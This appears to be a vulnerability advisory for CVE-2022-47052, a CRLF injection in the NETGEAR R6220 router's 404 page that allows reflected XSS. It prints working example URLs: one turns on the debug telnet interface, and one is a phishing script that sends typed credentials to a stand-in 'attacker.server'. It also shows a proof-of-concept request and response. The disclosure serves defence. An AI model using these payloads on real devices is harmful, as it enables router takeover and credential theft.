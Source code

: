 
## Response Splitting via CRLF

### Description

CRLF (Carriage Return Line Feed) Injection
CWE-93: https://cwe.mitre.org/data/definitions/93.html

Response splitting via Carriage Return Line Feed (CRLF) is a vulnerability that exploits the way HTTP headers parse certain characters such as \rand \n. Appending these characters to HTTP headers can allow the insertion of payloads into a header which can result in the manipulation of cookies, server information, and status codes.

Type: Unauthenticated Remote attack

Tested on firmware version: V1.1.0.112_1.0.1, V1.1.0.114_1.0.1

### Details

The web interface of the 'Nighthawk R6220 AC1200 Smart Wi-Fi Router' is vulnerable to a CRLF Injection attack that can be leveraged to perform Reflected XSS and HTML Injection.

This issue affects the custom 404 page that is served when a request is issued for a page that does not exist. By leveraging this vulnerability, an unauthenticated remote attacker is able to inject arbitrary HTML and JavaScript code to be executed in a user's browser.

### Impact

A malicious attacker can exploit this vulnerability using a specially crafted URL. If this URL is opened by an administrator, the attacker can achieve the following:

1) Perform actions on the administrative portion of the web application
 - Example payload that enables the debug telnet interface: 
`https://192.168.1.1/666%0A%0A%3Cscript%3Edocument.location=%22https://192.168.1.1/setup.cgi?todo=debug%22;%3C/script%3E`

2) Obtain the administrator's credentials through phishing 
 - Example phishing payload: 
`https://192.168.1.1/123%0A%0A%3Cscript>var name=prompt("Username");var pass=prompt("Password");document.location="http://attacker.server/?user="+name+"?pass="+pass;</script>`

Note that if another vulnerability is presented in the administrative portal such as a Remote Command Execution (RCE), an attacker can use a specially crafted URL and chain the two vulnerabilities to create a one-click exploit.

### Evidence

The request consists of a resource that does not exist ("xsstesty") followed by Line-Feed characters (%0A%0A) and the JavaScript payload.

Request

```
GET /xsstesty%0A%0A%3Cscript%3Ealert('xss');%3C/script%3E 
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: sessionid=sid17289xxx158005xxx1087458037
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

Note that the HTTP response headers are embedded directly into the 404 page response body and the payload is executed on the victim's browser.

Response Body

```
<script>alert('xss');</script> HTTP/1.1 404 Not Found
Server: 
Date: Fri, 02 Jan 1970 02:44:27 GMT
Content-Type: text/html
P3P: 443
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1;mode=block
X-Content-Type-Options: nosniff
Connection: close

        <HTML>
        <HEAD><TITLE>404 Not Found</TITLE></HEAD>
        <BODY BGCOLOR="#cc9999" TEXT="#000000" LINK="#2020ff" VLINK="#4040cc">
        <H4>404 Not Found</H4>
File not found.
</BODY>
</HTML>
```

<p align="center">
  <img src="https://raw.githubusercontent.com/dest-3/NETGEAR/main/CVE-2022-47052/XSS_Response_Body.png"/>
</p>

### Remediation

Sanitize and neutralize all user-supplied data or properly encode output in HTTP headers that would otherwise be visible to users in order to prevent the injection of CRLF sequences and their consequences.
